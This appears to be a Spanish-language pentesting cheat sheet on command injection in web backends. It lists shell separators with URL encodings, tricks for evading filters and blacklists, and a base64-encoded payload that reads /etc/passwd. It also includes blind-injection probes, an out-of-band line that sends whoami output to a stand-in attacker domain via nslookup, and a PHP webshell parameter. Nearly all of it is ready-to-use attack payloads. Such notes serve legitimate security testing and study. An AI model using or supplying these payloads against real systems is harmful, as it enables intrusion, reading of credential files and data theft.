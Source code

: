 siempre que se haga una consulta sobre un item a un backend contastar si es posible una injección de comando aparte de una sqli, 
algunos backends corren código para hacer querys sobre aplicaciones légacy ;)


Semicolon 	; 	%3b 	Both
New Line 	 \n 	%0a 	Both
Background 	& 	%26 	Both (second output generally shown first)
Pipe 	      | 	%7c 	Both (only second output is shown)
AND 	     && 	%26%26 	Both (only if first succeeds)
OR 	       || 	%7c%7c 	Second (only if first fails)
Sub-Shell  `` 	%60%60 	Both (Linux-only)
Sub-Shell  $() 	%24%28%29 	Both (Linux-only)

podemos luego de encontrar el conector entre comandos, si hay algún filtro posterior utilizar diferentes secuencias:
${IFS} inserta un espacio y una tabulación y luego el comando
{ls,-la} agrega comandos como argumentos y agregando espacios en los mismos

para bypassear blacklisted characters se puede utilizar una extracción del caracter del index de una variable de entorno:
${PATH:0:1} (en este caso estaríamos extrayendo el caracter del index 0 de la variable PATH que sería "/"
$env:HOMEPATH[0] mismo ejemplo en windows

podemos concatenar estas técnicas, ej:
127.0.0.1%0a{ls,${PATH:0:1}home}

SQL Injection 	' , ; -- /* */
Command Injection 	; &&
LDAP Injection 	* ( ) & |
XPath Injection 	' or and not substring concat count
OS Command Injection 	; & |
Code Injection 	' ; -- /* */ $() ${} #{} %{} ^
Directory Traversal/File Path Traversal 	../ ..\\ %00
Object Injection 	; & |
XQuery Injection 	' ; -- /* */
Shellcode Injection 	\x \u %u %n
Header Injection 	\n \r\n \t %0d %0a %09

### bypass command blacklisted

podemos agregar caracteres que no son tomados en cuenta en linux y windows como las comillas simples y dobles entre la morfologia del comando
who'am'i
who"am"i

##### Linux only:
who$@ami
w\ho\am\i

##### Windows:
 who^ami

podemos encontrarnos otras medidas como firewalls que nos bloqueen los comandos, con lo cual podemos utilizar diferentes técnicas de bypass:
Case manipulation:
WhOaMi 
Para las terminales case-sensitive como la terminal de linux, podemos utilizar comandos como:

  $(tr "[A-Z]"%09"[a-z]"<<<"WhOaMi")

  
o aplicando un reversing:

##### Linux:

  $(rev<<<'imaohw')

##### Windows:
  iex "$('imaohw'[-1..-20] -join '')"

encodear un comando:
ejemplo de comando pasado a base64:
echo -n 'cat /etc/passwd | grep 33' | base64
resultado: Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
payload: bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)


### Blind command injection
Podemos probar blind command injections utilizando comandos que incluyan un temporizador:

parametro= x||ping+-c+10+127.0.0.1||

Redirecting Output:
Podemos también crear archivos internos con la información de los comandos, de esta manera podremos luego visitar el archivo
creado y consultar el resultado:
parametro = || whoami > /var/www/static/whoami.txt ||

Out-of-band exfiltration:
x || nslockup 'whoami'.servidor-del-atacante.com ||
Nos llegara una request a un subdominio con los datos del comando ejecutado.


################## Code injection en un parametro php:
podemos crear una webshell en un parámetro php que ejecuta código de la siguiente manera:
parameter = ${system($_GET[cmd])}&cmd=
